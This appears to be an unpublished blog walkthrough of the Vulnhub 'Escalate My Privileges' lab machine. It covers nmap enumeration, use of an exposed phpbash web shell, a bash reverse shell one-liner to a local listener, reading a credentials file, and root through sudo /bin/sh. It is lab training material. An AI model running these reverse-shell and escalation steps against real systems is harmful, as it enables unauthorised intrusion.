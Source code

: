```yaml
---
published: false
layout: post
category: vulnhub
---
```

URL: [Escalate Privs Vulnhub](https://www.vulnhub.com/entry/escalate-my-privileges-1,448/)

Difficulty: Easy / Beginner Level

Author: Akanksha Sachin Verma

### Enumeration

Set up the Machine with a host-only adapter and run a net discover command to find the associated IP. My interface eth1 is Host Only on my main OS (Kali Linux).

<pre>netdiscover -i eth1</pre>

![netdiscover](https://imgur.com/ZXbe7TE.png)

The IP 192.168.56.113 has been found so we will do a port scan with the following IP:

<pre>nmap -p- -i "nmap" -sS 192.168.56.113</pre>

Nmap will scan every port with -p-, save to file -o and TCP SYN scan -sS.

![nmap](https://imgur.com/9oFhuw8.png)

Port 22, 80 and 111 is open. I will be focusing on port 80 for my enumeration however it's worth looking at port 111 to see if there are any mountable file systems. I won't go down this route but [this](https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/) website has a section on it. 

Opening up port 80 in a browser, we get this:

![p80](https://imgur.com/76wn0qP.png)

The nmap scan identified a robots.txt file which is worth checking out. Go to 192.168.56.113/robots.txt and there is an entry with the following:

<pre> - User-agent: *
Disallow: /phpbash.php</pre>

This means they do not want that page to be shown in google so we'll check it out anyway.

Going to 192.168.56.113/phpbash.php gives us the following page:

![phpbash](https://imgur.com/nQxbms3.png)

We already have a lower priv shell with the ID "apache". We are currently in the www/html directory where the web files are kept. 

### Upgrade Shell

Upgrading to a reverse shell will be easier to work with. I use [this website](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to decide how I will get a reverse shell. Simply use the bash 'one-liner' and listen to a chosen port. 

<pre>bash -i >& /dev/tcp/192.168.56.101/4545 0>&1 </pre>

![rev_shell](https://i.imgur.com/QYgCcDI.png)

In this case, the reverse shell will be aimed at my local IP 192.168.56.101 on port 4545. Therefore set up a netcat listener on this port.

Make sure the netcat is set up before the command is executed. 

<pre>nc -nvlp 4545</pre>

Then execute the reverse shell and a connection should be established with user "apache".

![netcat](https://i.imgur.com/AFYGLzO.png)

### Privilege Escalation

After some enumeration, some files are found in the home directory of "armour". The contents of Credentials.txt reveal a password with md5(). Md5 is an algorithm that is widely used for hash functions producing a 128-bit hash value.

The md5 value has been shown by echo.

<pre>cd /home/armour
ls -la
cat Credentials.txt
echo -n "rootroot1" | md5sum </pre>

![md5](https://imgur.com/BJ1q5M4.png)

Let's try and use this password for the user "armour" by changing the user with the following command:

<pre>su amour</pre>

![armour](https://imgur.com/iJDJnlr.png)

The password is correct, we now have a new shell with ID armour. Make sure to upgrade the shell.

<pre>id
python3 -c 'import pty;pty.spawn("/bin/bash")'</pre>

First thing to do is to check the sudo privileges:

<pre>sudo -l</pre>

![sudo-l](https://imgur.com/qfvwZll.png)

There is a huge amount of options to explore however just by exploiting the first entry /bin/sh should give sudo privileges.

<pre>sudo /bin/sh</pre>

![root](https://imgur.com/aETTEPy.png)

And there is the flag in /root.
